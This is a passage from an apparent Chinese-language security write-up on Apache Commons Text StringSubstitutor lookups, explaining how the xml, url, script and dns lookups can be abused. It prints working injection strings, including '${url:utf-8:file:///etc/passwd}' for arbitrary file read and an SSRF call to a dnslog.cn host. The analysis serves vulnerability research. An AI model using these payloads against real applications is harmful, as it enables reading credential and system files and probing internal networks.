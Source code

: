 documentPath 会去在本地去读取该文件：

```Java
InputStream inputStream = Files.newInputStream(Paths.get(documentPath));
```

最后会调用对应的方法进行解析，可以达到xxe的效果：

```Java
XPathFactory.newInstance().newXPath().evaluate(xpath, new InputSource(inputStream));
```

4.7 UrlStringLookup
-------------------

```Java
${url:charsetName:urlStr}
```

 通过`:`切割，获取到charsetName和urlStr，然后通过java.net.URL对象对urlStr进行处理。也就是说可以通过File/http协议去操作。

- 任意文件读取

```Java
StringSubstitutor stringSubstitutor = StringSubstitutor.createInterpolator();
String value = stringSubstitutor.replace("${url:utf-8:file:///etc/passwd}");
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-78df69f00ca7db4a627b85e0cfe64ce202e6fd72.png)

- SSRF

```Java
${url:utf-8:http://x.x.x.x}
```

```Java
StringSubstitutor stringSubstitutor = StringSubstitutor.createInterpolator();
String value = stringSubstitutor.replace("${url:utf-8:http://wzd0lw.dnslog.cn}");
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-48eea62748d9ebea51aa948f4721f3332ee634a3.png)

4.8 ScriptStringLookup
----------------------

 实际上就是js引擎的调用，前面复现过程已经提及过了：

```Java
ScriptEngine scriptEngine = (new ScriptEngineManager()).getEngineByName("js");
```

4.9 DnsStringLookup
-------------------

```Java
${dns:address|x.x.x.x}
```

 主要通过`|`分割，然后调用InetAddress.getByName()方法，在给定主机名的情况下确定主机的IP地址，这里实际上会发起一个dns请求：
